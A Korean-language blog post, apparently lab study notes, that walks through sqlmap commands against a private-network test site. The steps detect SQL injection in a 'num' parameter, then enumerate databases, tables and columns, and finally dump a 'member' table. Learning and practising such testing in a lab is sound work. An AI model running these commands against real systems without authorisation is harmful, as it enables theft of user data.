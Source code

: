 ```yaml
---
title:  "sqlmap" 

categories:
  - appatack
tags:
  - [injection]

toc: true

date: 2022-11-01
last_modified_at: 2022-11-01
---
```


- sqlmap 실행 테스트

  ```
  ┌──(root㉿kali)-[~]
  └─# sqlmap
  ```

  ![화면 캡처 2022-11-01 165112](../../assets/img/화면 캡처 2022-11-01 165112-1667289132750-24.png)

- 도움말 확인

  ```
  ┌──(root㉿kali)-[~]
  └─# sqlmap -h
  ```

  ![화면 캡처 2022-11-01 165322](../../assets/img/화면 캡처 2022-11-01 165322.png)

  ![화면 캡처 2022-11-01 165353](../../assets/img/화면 캡처 2022-11-01 165353.png)

- 취약점 확인

  ![화면 캡처 2022-11-01 165724](../../assets/img/화면 캡처 2022-11-01 165724.png)

  ```
  ┌──(root㉿kali)-[~]
  └─# sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num"
  ```

  ![화면 캡처 2022-11-01 170159](../../assets/img/화면 캡처 2022-11-01 170159.png)

  ![화면 캡처 2022-11-01 170230](../../assets/img/화면 캡처 2022-11-01 170230.png)

- 데이터베이스 목록

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" --dbs
  ```

  ![화면 캡처 2022-11-01 171542](../../assets/img/화면 캡처 2022-11-01 171542.png)

- 지정된 데이터베이스내의 테이블 목록

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" -D "WebTest" --tables
  ```

  ![화면 캡처 2022-11-01 171609](../../assets/img/화면 캡처 2022-11-01 171609.png)

- member 테이블의 칼럼

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" -D "WebTest" -T "member" --column
  ```

  ![화면 캡처 2022-11-01 171627](../../assets/img/화면 캡처 2022-11-01 171627.png)

- member 테이블의 내용을 추출

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" -D "WebTest" -T "member" --dump
  ```

  ![화면 캡처 2022-11-01 171658](../../assets/img/화면 캡처 2022-11-01 171658.png)

- 추출한 내용이 저장된다

  ![화면 캡처 2022-11-01 171140](../../assets/img/화면 캡처 2022-11-01 171140.png)

  ![화면 캡처 2022-11-01 171351](../../assets/img/화면 캡처 2022-11-01 171351.png)